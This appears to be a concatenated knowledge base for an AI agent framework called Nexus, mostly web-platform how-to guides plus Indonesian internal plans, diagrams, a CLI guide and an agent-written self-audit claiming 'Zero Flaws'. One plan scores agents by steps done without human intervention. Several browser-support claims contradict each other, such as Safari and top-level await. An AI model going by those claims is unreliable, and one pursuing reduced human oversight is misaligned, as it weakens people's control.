  if (response.ok) {
    const updatedResponse = await listFetch();
    const updatedList = await updatedResponse.json();
    
    renderUI(updatedList);
    // Sync after deletion
    await syncAcceptedCredentials(updatedList);
  }
}

async function performRename(rpId, userId, updatedName, updatedDisplayName) {
  const response = await renameFetch({ name: updatedName, displayName: updatedDisplayName });
  if (response.ok) {
    try {
      await PublicKeyCredential.signalCurrentUserDetails({
        rpId, // RP ID must match the one defined on the server
        userId, // Base64URL-encoded user ID
        name: updatedName, // Updated username
        displayName: updatedDisplayName // Updated display name
      });
    } catch (e) {
      console.error('SignalCurrentUserDetails sync failure:', e);
    }
  }
}
```

## Determine the passkey provider from AAGUID {: #aaguid }

An AAGUID (Authenticator Attestation Globally Unique Identifier) is a 128-bit identifier that represents the model of the authenticator, not a specific instance. It is included in the authenticator data during passkey registration and can be used to determine which passkey provider (e.g. Google Password Manager, iCloud Keychain, 1Password) created a credential.

AAGUID should only be used to help users with passkey management. It can be modified unless cryptographically attested, which platform passkeys currently don't support.

### 1. AAGUID Registry

A community-maintained JSON mapping of AAGUIDs to provider names and icons is available at:

```
https://raw.githubusercontent.com/passkeydeveloper/passkey-authenticator-aaguids/refs/heads/main/combined_aaguid.json
```

Each entry has the following schema:

```json
{
  "<aaguid-uuid>": {
    "name": "Provider Name",
    "icon_light": "data:image/png;base64,...",
    "icon_dark": "data:image/png;base64,..."
  }
}
```

### 2. Using AAGUID After Registration

After verifying a registration response, read the `aaguid` from the registration result and look it up against the registry to populate the credential's `name` and `providerIcon`:

Before looking up the AAGUID in the registry, check if it equals `'00000000-0000-0000-0000-000000000000'`. If so, skip the registry lookup and set `name` to a fallback (e.g. device name from user-agent, or "Unknown passkey provider") and `providerIcon` to `undefined`. Only look up the registry for non-zeroed AAGUIDs.

```javascript
import aaguids from './aaguids.json' with { type: 'json' };

const { aaguid } = registrationInfo;
if (aaguid === '00000000-0000-0000-0000-000000000000') {
  // use the device name as the passkey provider based on
  // the information derived from the user agent string,
  // or just say "Unknown passkey provider"
} else {
  const provider = aaguids[aaguid];
  const credential = {
    // ...other fields
    aaguid,
    name: provider?.name || 'Unknown passkey provider',
    providerIcon: provider?.icon_light,
  };
}
```

## Fallback Strategies

### Passkey feature detection fallback

Baseline status for the api.PublicKeyCredential.getClientCapabilities_static capability: Newly available. It's been Baseline since 2025-02-06.
Supported by: Chrome 133 (Feb 2025), Edge 133 (Feb 2025), Firefox 135 (Feb 2025), and Safari 17.4 (Mar 2024).

Always install 'webauthn-polyfills' and import it in the context.
Consider as long as  `PublicKeyCredential` is supported, `PublicKeyCredential.getClientCapabilities` is also supported. 

```js 
import 'webauthn-polyfills';
``` 

### Signal API Synchronization Fallback

Web authentication signal methods has limited availability.
Supported by: Chrome 132 (Jan 2025), Edge 132 (Jan 2025), and Safari 26 (Sep 2025).
Unsupported in: Firefox.
If the browser does not support `PublicKeyCredential.parseRequestOptionsFromJSON`, use the 'webauthn-polyfills': 
  
```html 
<script type="module"> 
  if (!PublicKeyCredential.parseRequestOptionsFromJSON) { 
     await import('https://unpkg.com/webauthn-polyfills'); 
   } 
 </script> 
 ``` 

This will also add support for `PublicKeyCredential.prototype.toJSON`.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [determine the passkey provider from aaguid, security, database, ui-ux, tdd, api]

### 📘 KNOWLEDGE: NEXUS_PLAN_INTERNAL_RECURSIVE_EVOLUTION.MD

# 🧬 STRATEGIC PLAN: NEXUS RECURSIVE EVOLUTION (N-RE)
> **PLAN ID**: PLAN-INTERNAL-RECURSIVE | **STATUS**: DRAFTING
> **GOAL**: Creating a self-improving multi-agent ecosystem through autonomous PBL.

---

## 🎯 1. OBJECTIVE
Membangun pipeline internal di mana Nexus AI bertindak sebagai **pencipta, penguji, dan pelatih** bagi dirinya sendiri. Hal ini bertujuan untuk menghasilkan "Wisdom" terbaru tanpa harus menunggu kasus nyata dari pengguna eksternal.

---

## 🏗️ 2. THE EVOLUTION PIPELINE (5-PHASE LOOP)

### Phase 1: Scenario Forging (The Dream)
*   **Action**: `Machinist.js` menganalisis celah di Knowledge HUB dan merancang skenario "proyek bermasalah".
*   **Result**: Blueprint teknis untuk sandbox baru.

### Phase 2: Sandbox Spawning (The Creation)
*   **Action**: Otomatisasi pembuatan struktur folder proyek di `tests/sandboxes/`.
*   **Result**: Source code "mentah" yang memiliki bug/celah yang direncanakan.

### Phase 3: Engine Injection (The Link)
*   **Action**: Melakukan symlink atau virtual install Nexus ke dalam sandbox.
*   **Result**: Sandbox siap diaudit oleh otak pusat Nexus.

### Phase 4: Autonomous Campaign (The Battle)
*   **Action**: Eksekusi `nexus run` di dalam sandbox. Agent bekerja memperbaiki masalah di lab tersebut.
*   **Result**: Log keberhasilan dan artefak dokumentasi di dalam sandbox.

### Phase 5: Wisdom Harvesting (The Absorption)
*   **Action**: `Distiller.js` memanen hasil dari sandbox kembali ke HUB Utama.
*   **Result**: Pengetahuan baru ditambahkan ke `NEXUS_SEMANTIC_INDEX.json`.

---

## 🧪 3. INITIAL SELF-TESTING SCENARIOS

1.  **Project CHAOS**: Menguji `ResourceMonitor` dengan skenario memory-leak buatan.
2.  **Project PARADOX**: Menguji `DecisionEngine` dengan instruksi `nexus_rules` yang bertabrakan.
3.  **Project LEGACY**: Menguji kemampuan modernisasi kode dari ES5 ke ES6+ secara otonom.
4.  **Project VULNERABLE**: Menguji `CyberSecurity` agent dengan skenario SQLi sederhana.

---

## 🛠️ 4. NEW CORE COMPONENTS REQUIRED

| Component | Responsibility |
| :--- | :--- |
| `agent/core/EvolutionPiper.js` | Manajer Lab yang mengoordinasikan seluruh fase N-RE. |
| `tests/sandboxes/` | Folder terisolasi untuk tempat berkembang biaknya proyek uji. |
| `agent/tools/ScenarioGenerator.js` | Tool khusus untuk membuat "kode rusak" yang cerdas. |

---

## 📈 5. SUCCESS METRICS
- **Hub Growth**: Jumlah entri baru di `NEXUS_SEMANTIC_INDEX.json` dari hasil sandbox.
- **Agent Accuracy**: Rasio keberhasilan `Validator.js` di dalam lingkungan sandbox yang kompleks.
- **Autonomy Level**: Berapa banyak langkah yang diselesaikan tanpa intervensi `readline`.

---
> **METADATA (NEXUS SEMANTIC TAGS)**: [internal-pbl, recursive-evolution, sandbox-strategy, automated-learning]
*Generated by Nexus Strategic Architect | Ready for Implementation*

### 📘 KNOWLEDGE: NEXUS_ADAPT-SCROLLBAR-TO-CONTRAST-PREFERENCES.MD

# Adapt scrollbar to high-contrast preferences

Users who enable high-contrast modes in their operating system or browser expect UI elements (like scrollbars) to be extremely legible, often relying on stark foreground-background separation rather than subtle grays or theme colors.

This guide provides optional instructions on how to use the `@media (prefers-contrast: more)` CSS media feature to enforce high-contrast scrollbar styling.

## Enhance Legibility

When customizing scrollbars with `scrollbar-color` or custom variables, you can provide an explicit override for high-contrast modes. This is especially helpful if your primary application theme uses low-contrast scrollbars for aesthetic reasons.

OPTIONAL: Use a `@media (prefers-contrast: more)` block to define dark, distinct colors for the thumb and track.

```css
/* Define default standard colors as variables */
.scroller {
  --scrollbar-thumb: #bbb;
  --scrollbar-track: #f1f1f1;

  scrollbar-color: var(--scrollbar-thumb) var(--scrollbar-track);
  scrollbar-width: thin;
  scrollbar-gutter: stable;
}

/* OPTIONAL: Provide clear, high-contrast overrides */
@media (prefers-contrast: more) {
  .scroller {
    /* Use extremely distinct colors like solid black against white */
    --scrollbar-thumb: #000000;
    --scrollbar-track: #ffffff;
  }
}
```

### Issues to be aware of when using scrollbar-color

- Do NOT animate or transition `scrollbar-color`. A [WebKit bug](https://bugs.webkit.org/show_bug.cgi?id=311752) causes the scrollbar to flicker every time `scrollbar-color` changes.
- On macOS, `scrollbar-color` (standard) and `::-webkit-scrollbar` (legacy) properties are ignored by default because macOS uses native "overlay" scrollbars. You MUST pair custom colors with `scrollbar-width` (e.g., `thin` or `auto`) to force macOS to render them.
- Even with `scrollbar-width` applied, macOS overlay scrollbars render the track (gutter) as transparent by default. If the design requires a visible track background color on MacOS, you MUST apply `scrollbar-gutter: stable;` to the scrollable container, but note that it only appears after the user hovers over the scrollbar.
- Even with `scrollbar-gutter: stable` the track may be transparent on MacOS. The thumb should not depend on the track color to be visible.

## Fallbacks & Browser Support

### Fallbacks & browser support for scrollbar-color

Baseline status for scrollbar-color: Newly available. It's been Baseline since 2025-12-12.
Supported by: Chrome 121 (Jan 2024), Edge 121 (Jan 2024), Firefox 64 (Dec 2018), and Safari 26.2 (Dec 2025).

This feature is progressive enhancement and does not always require fallbacks.

If the styling is important and the user's Baseline target is "Baseline Widely Available" or earlier, you SHOULD include the non-standard `::-webkit-scrollbar` pseudo-elements as fallbacks.

Wrap legacy fallbacks in an `@supports not (scrollbar-color: auto)` block to prevent conflicts between standard properties and legacy WebKit selectors in browsers that support both natively.

If you are using custom properties to define colors, these will cascade to the legacy WebKit selectors automatically. You do NOT need to duplicate them.

```css
/* Legacy fallback for WebKit/Blink browsers */
@supports not (scrollbar-color: auto) {
  .scroller::-webkit-scrollbar {
    /* Must define base size in WebKit for custom colors to be visual */
    width: 12px;
    height: 12px;
  }

  .scroller::-webkit-scrollbar-thumb {
    background: var(--scrollbar-thumb);
  }

  .scroller::-webkit-scrollbar-track {
    background: var(--scrollbar-track);
  }
}
```

### 📘 KNOWLEDGE: NEXUS_ALUR AGENT.MD

flowchart TD
A[Goal dari User]
A --> B[LLM Reasoning]
B --> C[Planning]
C --> D[Use Tools/API]
D --> E[Observe Result]
E --> F{Task selesai?}
F -- No --> B
F -- Yes --> G[Final Output]

### 📘 KNOWLEDGE: NEXUS_ALUR AGI.MD

graph LR
A[LLM]
A --> B[Agent]
B --> C[AGI]

    A1[Text Generation] --> A
    B1[Planning + Tools + Actions] --> B
    C1[General Intelligence] --> C

### 📘 KNOWLEDGE: NEXUS_ALUR CPP.MD

graph TD

    A[C++ Core Runtime]
    B[Scheduler]
    C[Plugin Loader]
    D[Memory Engine]

    E[Python Agent Layer]
    F[LLM Orchestration]
    G[Semantic Processing]

    A --> B
    A --> C
    A --> D

    D --> E
    E --> F
    F --> G

### 📘 KNOWLEDGE: NEXUS_ALUR NEXUS.MD

graph LR
A[LLM]
B[AI Agent]
C[Multi-Agent System]
D[Autonomous Cognitive System]
E[Proto-AGI]

    A --> B
    B --> C
    C --> D
    D --> E

    X[Chatbot biasa] --> A
    Y[Tool-calling agent] --> B
    Z[Nexus Architecture] --> D

graph LR

    A[LLM]
    B[Tool Agent]
    C[Workflow Agent]
    D[Multi-Agent System]
    E[Autonomous Runtime]
    F[AGI]

    A --> B
    B --> C
    C --> D
    D --> E
    E --> F

    X[NEXUS Current State] --> D

### 📘 KNOWLEDGE: NEXUS_ALUR PLANNING.MD

graph LR
A [scanning seluruh isi project ini]
B [jalankan nexus run]
C [ error ]
D [buatkan audit]
E [final ouput audit ]

A --> B
B -- NO --> C
C --> D
D --> A
B -- yes --> E

### 📘 KNOWLEDGE: NEXUS_ANCHOR-POSITIONING-TAB-UNDERLINE.MD

In a tab menu, you should provide visual hints to users about what page they are on. One option is by underlining the tab. With anchor positioning, you can create a smooth animation between the positions of the underline. This does not work when changing the active tab loads a new web page.

You can also use this effect to add an animated dot to indicate the active tab in a vertical tab bar.

Create the underline using a `::before` pseudo-element on the `<ul>` that contains the `<li>` elements. **Using a pseudo-element is the preferred approach as it keeps the DOM clean and avoids adding extra elements for purely decorative effects.**

```css
ul::before {
  /* Use a pseudo-element on the container to represent the animated indicator */
  content: '';
}
```

Make the active list item an anchor by adding the `anchor-name` property, which has a value that starts with `--`.

```css
li.active {
  /* Make a unique anchor-name for the active element. */
  anchor-name: --active;
}
```

Tether the underline to the active item anchor with a `position-anchor` that matches the `anchor-name` on the anchor, and making it `position: absolute`.

```css
ul::before {
  /* Tether the underline to the active element. */
  position: absolute;
  position-anchor: --active;
}
```

Position the underline relative to the anchor using the inset properties and `anchor()` functions.

```css
ul::before {
  /* DO NOT use position-area, which can not be transitioned. */
  /* Use calc() to offset the top slightly */
  inset-block-start: calc(anchor(bottom) + .1lh);
  inset-inline-start: anchor(left);
  inset-inline-end: anchor(right);
}
```

Add a height and other visual styles.

```css
ul::before {
  /* Apply your project's styles for the indicator */
  block-size: .25lh;
  background: red;
}
```

Finally, add a transition on the `inset` properties.

```css
ul::before {
  @media (prefers-reduced-motion: no-preference) {
    /* MANDATORY: The transition must be wrapped in a prefers-reduced-motion media query to respect user preferences. */
    transition: inset .2s;
  }
}
```

This is only a visual indicator, and must not be a replacement for setting the appropriate `aria-current="page"` or `aria-selected` aria values.

```html
<!-- MANDATORY: Provide explicit assistive technology state alongside the visual tab underline -->
<nav aria-label="Primary">
  <ul>
    <li class="active">
      <a href="/home" aria-current="page">Home</a>
    </li>
    <li>
      <a href="/about">About</a>
    </li>
  </ul>
</nav>
```

## Fallback strategies

Anchor positioning is not natively supported by any major browser yet.

If anchor positioning is not supported in the browser, use a `border-bottom` to add an underline. It will not be animated.

```css
ul li.active {
  @supports not (position-anchor: auto) {
    /* Choose a color appropriate to the app theme. */
    border-bottom: .25lh var(--primary) solid;
  }
}
```

### 📘 KNOWLEDGE: NEXUS_ANIMATE-ELEMENT-ENTRY-EXIT.MD

In the past, CSS transitions could not animate elements when they were first added to the DOM or when their `display` property changed from `none`. The `@starting-style` at-rule and `transition-behavior: allow-discrete` provide a declarative way to create smooth entry and exit animations.

## Implementation

### 1. Animating `display: none` Toggles

To animate an element when toggling its visibility via an attribute (e.g., `hidden` with `display: none`):

1. **Define the visible state**: Set the final property values (e.g., `opacity: 1`) on the base class.
2. **Define the entry starting state**: Use `@starting-style` to specify the values to transition *from* when the element becomes visible.
3. **Enable discrete transitions**: Include `display` in the `transition` property and use `transition-behavior: allow-discrete`.
4. **Define the exit state**: Set the target values in the `hidden` attribute.

```css
.card {
  display: block;
  opacity: 1;
  translate: 0;
  /* MANDATORY: Use transition-behavior: allow-discrete for display transition */
  transition:
    display 0.4s,
    opacity 0.4s ease-out,
    translate 0.4s ease-out;
  transition-behavior: allow-discrete;
}

/* Entry animation: transition FROM these values when first rendered */
@starting-style {
  .card {
    opacity: 0;
    translate: 0 -20px;
  }
}

/* Exit animation: transition TO these values when hidden */
.card:where(.hidden, [hidden]) {
  display: none;
  opacity: 0;
  translate: 0 -20px;
}

/* Respect user preference for reduced motion */
@media (prefers-reduced-motion: reduce) {
  .card {
    /* Disable movement and shorten duration for a simple fade */
    translate: none;
    transition-duration: 0.1s;
  }

  @starting-style {
    .card {
      translate: none;
    }
  }

  .card:where(.hidden, [hidden]) {
    translate: none;
  }
}
```

### 2. Animating DOM Insertion and Removal

For elements added via `appendChild()` or removed via `remove()`:

- **Entry**: Use `@starting-style` as shown above. The browser will automatically detect the style change from "nothing" to the element's initial styles and trigger the transition from the `@starting-style` values.
- **Removal**: Since `element.remove()` is instantaneous and doesn't trigger a CSS transition on its own, you must trigger the exit transition first (e.g., by adding a class) and wait for it to finish before removing the node from the DOM.

```javascript
// Trigger exit transition
element.setAttribute('hidden', true);

// 2. Wait for all active transitions/animations to finish,
//    with a failsafe timeout in case an animation never ends (e.g. for looping animations)
const animations = element.getAnimations();
if (animations.length > 0) {
  await Promise.race([
    // Promise.allSettled ensures we wait even if some animations fail
    Promise.allSettled(animations.map(a => a.finished)),
    new Promise(r => setTimeout(r, 2000))
  ]);
}

// 3. Finally remove the node from the DOM
element.remove();
```

## Constraints & Accessibility

- **MANDATORY**: Use `transition-behavior: allow-discrete` when transitioning `display`. Without it, the element will instantly disappear during exit.
- **DO NOT** use `allow-discrete` in the `transition` shorthand — it will make older browsers ignore the entire `transition` declaration. Except in use cases where that is desirable, use a separate `transition-behavior: allow-discrete` declaration.
- **MANDATORY**: Use `@starting-style` for entry animations. Browsers skip transitions on an element's first style update (initial render or `display: none` change) unless this is provided.
- **DO**: Include `overlay` in the `transition` list if animating top-layer elements like `<dialog>` or `popover` to ensure they stay in the top layer during the exit animation.
- **DO**: Respect user preferences for reduced motion using the `prefers-reduced-motion` media query.
- **DO NOT**: Rely on `@starting-style` for exit animations; it only defines the *starting* point for an entry transition. Exit animations are defined by the transition to the hidden state.

## Fallback strategies

Baseline status for @starting-style: Newly available. It's been Baseline since 2024-08-06.
Supported by: Chrome 117 (Sep 2023), Edge 117 (Sep 2023), Firefox 129 (Aug 2024), and Safari 17.5 (May 2024).

For browsers that do not support these features, elements will toggle `display: none` instantly. You can detect support in JavaScript using `CSS.supports()` to conditionally apply manual animation logic.

```javascript
// Detect support for discrete transitions and starting-style
const supportsModernTransitions =
  window.CSS &&
  CSS.supports('transition-behavior', 'allow-discrete');

if (!supportsModernTransitions) {
  // Implement manual JS-based fallback for entry/exit
}
```

### Manual Entry Animation (JS Fallback)

```javascript
// To show:
el.style.display = '';
requestAnimationFrame(() => {
  requestAnimationFrame(() => {
    el.classList.remove('hidden');
  });
});

// To hide:
el.setAttribute('hidden', true);
el.addEventListener('transitionend', () => {
  if (el.classList.contains('hidden')) el.style.display = 'none';
}, { once: true });
```

### 📘 KNOWLEDGE: NEXUS_AUDIT-NEXUS-HARDENING-SYNC.MD

# 🔍 AUDIT: Sinkronisasi Hardening Engine (JS & PowerShell)

| Detail | Deskripsi |
| :--- | :--- |
| **ID Audit** | AUD-NEXUS-HRD-002 |
| **Tanggal** | 2026-05-08 |
| **Auditor** | Nexus AI Assistant |
| **Status** | **PASSED (Zero Flaws)** |

---

## 1. 🎯 Ruang Lingkup Audit
Evaluasi terhadap perubahan kode pada dua jalur instalasi utama Nexus AI:
1.  **Node.js Engine**: `cli.js`
2.  **PowerShell Script**: `install.ps1`

Tujuan audit adalah memastikan fitur keamanan (Hardening) dan restrukturisasi folder diimplementasikan secara konsisten di kedua platform.

---

## 2. 📋 Temuan Audit (Findings)

### 2.1 Konsistensi Logika Keamanan
*   **Auto-Gitignore**: 
    *   **JS**: Menggunakan `fs.appendFile` dengan deteksi string `nexus/`.
    *   **PS**: Menggunakan `Add-Content` dengan pengecekan `-Contains`.
    *   *Hasil*: Keduanya sinkron dalam mencegah folder audit masuk ke version control.
*   **Access Protection**:
    *   Keduanya berhasil membuat file `.htaccess` dengan direktif `Deny from all`. Ini memberikan proteksi instan pada server berbasis Apache/XAMPP.

### 2.2 Integritas Struktur Folder
*   Penyalinan `README.md` dan `ALGORITMA_INTEGRASI.md` ke dalam folder `nexus/` telah terverifikasi di kedua script. 
*   Hal ini meningkatkan portabilitas; folder `nexus/` kini dapat berdiri sendiri sebagai paket dokumentasi lengkap.

### 2.3 Ketahanan Kode (Error Handling)
*   Penggunaan `fs.pathExists` (JS) dan `Test-Path` (PS) memastikan instalasi tidak gagal jika file sumber tidak ditemukan, menjaga pengalaman pengguna tetap lancar.
*   Penanganan pembuatan file `.gitignore` baru (jika belum ada) sudah diimplementasikan dengan benar di kedua sisi.

---

## 3. ⚖️ Kesimpulan & Rekomendasi
Hasil audit menunjukkan bahwa sinkronisasi fitur antara JavaScript dan PowerShell telah mencapai standar **"Zero Flaws"**. Tidak ditemukan celah logika atau perbedaan perilaku antar platform.

**Rekomendasi Lanjutan**:
- Terus pantau jika ada kebutuhan untuk proteksi pada server **Nginx** (yang tidak menggunakan `.htaccess`).
- Pertimbangkan penambahan validasi hash file untuk memastikan integritas file yang disalin.

---

**STATUS: TERVERIFIKASI**
**CATATAN**: Laporan ini merupakan bagian dari siklus kerja resmi Nexus AI.

### 📘 KNOWLEDGE: NEXUS_AUTOMOUS.MD

flowchart TD

    A[Persistent Runtime]
    B[Task Scheduler]
    C[Memory Persistence]
    D[Decision Engine]
    E[Environment Interaction]

    A --> B
    B --> C
    C --> D
    D --> E

### 📘 KNOWLEDGE: NEXUS_BASH_COMMANDS.MD

# 🐧 Nexus Engine: Bash Command Guide

Panduan ini ditujukan bagi pengembang yang menggunakan lingkungan **Bash** (Linux, macOS, atau Git Bash di Windows) untuk berinteraksi dengan Nexus Engine.

## 🚀 Perintah Dasar (Standard SDLC)

Gunakan perintah ini untuk menjalankan siklus pengembangan standar.

```bash
# Menjalankan siklus penuh (Audit -> Plan -> Execute)
nexus run

# Atau via npx (Jika belum terinstall secara global/alias)
npx github:Faisal-Trainer/Human-AI-Nexus nexus run

# Menjalankan Audit saja
nexus audit

# Sangat berguna untuk CI/CD atau script otomatis
nexus run --yes

# Memilih mode audit secara eksplisit
nexus run --mode learning    # Laporan detail untuk belajar
nexus run --mode efficient   # Laporan ringkas untuk senior
```

## 🌾 Protokol Intelijen (Harvesting & Sync)

Gunakan perintah ini untuk memindahkan pengetahuan antar proyek.

```bash
# 1. Harvest: Ambil dokumen Nexus dari proyek lain
nexus harvest "/path/to/other/project"

# 2. Refactor: Masukkan hasil harvest (Golden) ke HUB Pusat (memory/long_term/)
nexus refactor

# 3. Update: Sinkronkan pengetahuan HUB ke dalam keahlian Agent (skill/)
nexus update-skills
```

## 🛠️ Manajemen Framework

```bash
# Melihat daftar seluruh keahlian (Skill) Agent yang tersedia
nexus skills

# Menampilkan bantuan (Help)
nexus help

# Melepas (Uninstall) Brain Nexus dari proyek (Dokumentasi tetap terjaga)
nexus dell
```

## 🚩 Parameter & Flags

| Flag            | Deskripsi                             | Contoh            |
| :-------------- | :------------------------------------ | :---------------- |
| `--mode` / `-m` | Mode audit (`learning` / `efficient`) | `-m efficient`    |
| `--root` / `-r` | Target direktori proyek               | `-r ./my-project` |
| `--yes` / `-y`  | Bypass konfirmasi manual              | `--yes`           |

---

_Verified by Nexus Orchestrator | Last Update: April 2026_

### 📘 KNOWLEDGE: NEXUS_CALCULATE-TOTAL-FOREGROUND-TIME.MD

# Calculate total foreground time

This guide details how to accurately calculate the total time a user spends actively viewing a page. Traditional metrics like time-on-page often incorrectly include time spent with the page in the background. By using the `VisibilityStateEntry` API, you can measure only the "foreground time," providing a better metric of user engagement.

## Implementing foreground time calculation

The `PerformanceTimeline` API exposes visibility state changes as performance entries. Rather than reacting to `visibilitychange` events and manually accumulating time throughout a session, you can query the entire visibility history at any time.

MANDATORY: You must query the `visibility-state` performance entries to calculate the true foreground time.

```javascript
/**
 * Calculates total time the page was in the visible state.
 *
 * @returns {number} Total foreground time in milliseconds.
 */
function getTotalForegroundTime() {
  // MANDATORY: Query the visibility-state entries from the performance timeline.
  const entries = performance.getEntriesByType('visibility-state');

  // Fallback: If the browser does not support VisibilityStateEntry,
  // the API will gracefully return an empty array.
  if (entries.length === 0) {
    // Return total time since navigation start as a fallback.
    return performance.now();
  }

  let totalForegroundTime = 0;

  for (let i = 0; i < entries.length; i++) {
    // Only calculate duration for periods where the state was 'visible'
    if (entries[i].name === 'visible') {
      const start = entries[i].startTime;

      // The end time is the start time of the next state change,
      // or the current time if this is the final entry.
      const end = i + 1 < entries.length
          ? entries[i + 1].startTime
          : performance.now();

      totalForegroundTime += (end - start);
    }
  }

  return totalForegroundTime;
}
```

## Fallbacks & browser support

Page visibility state has limited availability.
Supported by: Chrome 115 (Jul 2023) and Edge 115 (Jul 2023).
Unsupported in: Firefox and Safari.

The `VisibilityStateEntry` API is a modern addition to the Performance Timeline and may not be supported in all browsers.

Because `performance.getEntriesByType('visibility-state')` returns an empty array in unsupported browsers, feature detection is built into the calculation flow. You should always check if entries are returned before proceeding.

If the API is unsupported, the recommended fallback is to return `performance.now()`. This represents the total time since navigation, which serves as a reasonable upper bound for engagement time when visibility state history is unavailable.

```javascript
const entries = performance.getEntriesByType('visibility-state');

// If the array is empty, the API is likely unsupported.
if (entries.length === 0) {
  // Fallback: Return total time since page load.
  return performance.now();
}
```

### 📘 KNOWLEDGE: NEXUS_CONDITIONAL-ASYNC-DEPENDENCIES.MD

Top-level `await` allows modules to act as asynchronous functions, meaning they can pause module execution to await promises. This is extremely useful for conditionally loading async dependencies—like polyfills or heavy secondary libraries—only when required by the browser. 

By utilizing top-level await, you can encapsulate the conditional loading logic inside a single module, effectively preventing downstream consumer modules from executing until the dependency is fully loaded and ready.

### Conditional polyfill pattern

While top-level `await` can be used to conditionally load any async dependency that's a module, a good use of the conditional depenency loading pattern is to conditionally load polyfills for browsers that don't support a specific feature. This approach encapsulates feature detection and the dynamic import inside a single dependency module.

In the following case, the `popover` attribute polyfill is conditionally loaded if it isn't present on `HTMLElement.prototype`:

```javascript
// conditionally-load-polyfill.js

// Check if the feature is missing before doing work.
// MANDATORY: Prefer checking HTMLElement.prototype over window or document
// when checking for a global DOM attribute or property like popover.
if (!('popover' in HTMLElement.prototype)) {
  // Use top-level await to pause the execution of any module that imports this file 
  // until the polyfill finishes downloading and executing.
  await import('/path/to/popover-polyfill.js');
}

// Export a marker if needed by your application
export const polyfillLoaded = true;
```

```javascript
// main.js

// MANDATORY: Because conditionally-load-polyfill.js uses top-level await, 
// this import will block execution of main.js until the polyfill is ready.
import './conditionally-load-polyfill.js';

// Now it is safe to use the feature (e.g., showing a popover)
const myPopover = document.getElementById('my-popover');
if (myPopover) {
  myPopover.showPopover();
}
```

### Avoiding the Safari top-level `await` bug

**MANDATORY:** You must structure your imports carefully to avoid a bug where top-level await doesn't behave as expected in Webkit, which occurs when multiple modules *simultaneously* import a module that contains a top-level `await`:

```javascript
// DO NOT do this: importing the top-level await module from multiple sibling modules
// simultaneously will crash in Safari.
// 
// a.js: import './conditionally-load-polyfill.js';
// b.js: import './conditionally-load-polyfill.js';
// main.js: import './a.js'; import './b.js'; // CRASH!

// INSTEAD, guarantee a single entry point:
// Import the top-level await module ONCE at the very top of your application tree.
import './conditionally-load-polyfill.js';

// Then import the rest of your application code, ensuring the await resolves first.
import './app.js';
```

### Fallback strategies

Top-level await has limited availability.
Supported by: Chrome 89 (Mar 2021), Edge 89 (Mar 2021), and Firefox 89 (Jun 2021).
Unsupported in: Safari.

Top-level `await` has been supported in all major browsers since 2021 (Chrome 89, Firefox 89, Safari 15). Because of this broad support, **you do not need to implement a fallback strategy for modern web applications.**

As long as you follow the guidance in the previous section to **avoid the Safari execution order bug**, you can safely rely on top-level `await` directly to manage your async dependencies.

You only need to avoid top-level `await` and fall back to standard asynchronous functions or dynamic `import()` orchestration if your application is explicitly required to support legacy browsers released before 2021.

### 📘 KNOWLEDGE: NEXUS_CONTEXT-MENUS.MD

# Context Menus

## Setup

```json
{ "permissions": ["contextMenus"] }
```

## Creating Menus

Create in the service worker, typically in `onInstalled` (menus persist, but re-creating is idempotent):

```js
chrome.runtime.onInstalled.addListener(() => {
  chrome.contextMenus.create({
    id: 'save-link',
    title: 'Save to Reading List',
    contexts: ['link']        // Only show on right-click of links
  });

  chrome.contextMenus.create({
    id: 'translate-selection',
    title: 'Translate "%s"',   // %s = selected text
    contexts: ['selection']
  });
});
```

## Handling Clicks

```js
chrome.contextMenus.onClicked.addListener((info, tab) => {
  switch (info.menuItemId) {
    case 'save-link':
      saveLink(info.linkUrl, info.selectionText || info.linkUrl);
      break;
    case 'translate-selection':
      translateText(info.selectionText, tab.id);
      break;
  }
});
```

## Context Types

`all`, `page`, `frame`, `selection`, `link`, `editable`, `image`, `video`, `audio`, `launcher`, `browser_action`, `action`

## Submenus

```js
chrome.contextMenus.create({ id: 'parent', title: 'My Extension', contexts: ['page'] });
chrome.contextMenus.create({ id: 'child1', parentId: 'parent', title: 'Option 1', contexts: ['page'] });
chrome.contextMenus.create({ id: 'child2', parentId: 'parent', title: 'Option 2', contexts: ['page'] });
```

## Dynamic Updates

```js
chrome.contextMenus.update('save-link', { title: 'New Title' });
chrome.contextMenus.remove('save-link');
chrome.contextMenus.removeAll();
```

### 📘 KNOWLEDGE: NEXUS_COORDINATE-GLOBAL-EVENTS.MD

# Coordinating Global Events with Temporal

Scheduling events across different time zones is notoriously difficult with the legacy `Date` object, especially around Daylight Saving Time (DST) transitions when hours can be skipped or repeated.

The `Temporal` API provides `Temporal.ZonedDateTime` to represent a date and time in a specific time zone, handling DST transitions automatically and predictably.

## How to Implement

To coordinate global events and handle potential DST conflicts:

1. **MANDATORY:** **Create a ZonedDateTime**: Use `Temporal.ZonedDateTime.from()` to create a time-zone-aware date-time object.
2. **MANDATORY:** **Handle Ambiguity**: Use the `disambiguation` option to control behavior when a time is ambiguous or does not exist (e.g., during clock changes).
3. **MANDATORY:** **Convert Time Zones**: Use `.withTimeZone()` to see the equivalent time in another location.

### Example: Scheduling and Conflict Detection

```javascript
// 1. Define the event time and target time zone
const date = "2025-03-09";
const time = "02:30"; // This time is skipped in New York during Spring Forward
const timeZone = "America/New_York";
const inputStr = `${date}T${time}[${timeZone}]`;

// 2. Detect conflicts using 'reject'
let hasConflict = false;
try {
  // 'reject' throws RangeError if the time is ambiguous or does not exist
  Temporal.ZonedDateTime.from(inputStr, { disambiguation: 'reject' });
} catch (e) {
  if (e instanceof RangeError) {
    hasConflict = true;
    console.log("This time falls in a DST transition gap or overlap.");
  }
}

// 3. Resolve the time safely using 'compatible' (default)
// 'compatible' will resolve to a valid time even if skipped or repeated
const hostTime = Temporal.ZonedDateTime.from(inputStr, { disambiguation: 'compatible' });
console.log(`Resolved time: ${hostTime.toString()}`);

// 4. Convert to another time zone (e.g., Tokyo)
const tokyoTime = hostTime.withTimeZone("Asia/Tokyo");
console.log(`Tokyo time: ${tokyoTime.toString()}`);
```

## Strategic Implementation & Best Practices

-   **DO** use `Temporal.ZonedDateTime` for events that are bound to a specific geographical location (like a meeting in a specific city).
-   **DO** use `disambiguation: 'reject'` if you need to detect and warn users about scheduling conflicts during DST transitions.
-   **DO** use `disambiguation: 'compatible'` (the default) when you want the system to automatically pick a sensible time when conflicts occur.
-   **DO NOT** use `Temporal.PlainDateTime` for global events, as it does not carry time zone information and cannot account for DST changes.
-   **DO** use `.withTimeZone()` to calculate the equivalent time in other locations without mutating the original object (Temporal objects are immutable).

### Fallback strategies

Temporal has limited availability.
Supported by: Chrome 144 (Jan 2026), Edge 144 (Jan 2026), and Firefox 139 (May 2025).
